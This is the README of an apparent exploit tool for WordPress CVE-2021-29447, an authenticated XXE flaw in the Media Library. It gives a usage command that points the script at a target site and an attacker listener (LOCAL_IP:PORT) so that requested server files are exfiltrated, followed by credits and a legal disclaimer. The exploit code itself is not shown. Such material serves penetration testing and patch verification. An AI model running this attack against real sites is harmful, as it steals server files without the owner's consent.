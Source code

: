 
# WordPress CVE-2021-29447 exploit

Exploit WordPress Media Library XML authenticated External Entity Injection (XXE) to exfiltrate files.

Patched in WordPress 5.7.1.

Required valid WordPress credentials to interact with Media Library.

## Usage

```
python3 wordpress-cve-2021-29447.py -l http://LOCAL_IP:PORT -r http://WORDPRESS_URL -u USERNAME -p PASSWORD
```

Script will ask for file path and return requested file.

## Credit

Inspired by [David Utón (M3n0sD0n4ld) ExploitDB](https://www.exploit-db.com/exploits/50304) script.

## Disclaimer

Usage of this for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## License

This script is released under the [MIT License](https://opensource.org/licenses/MIT).

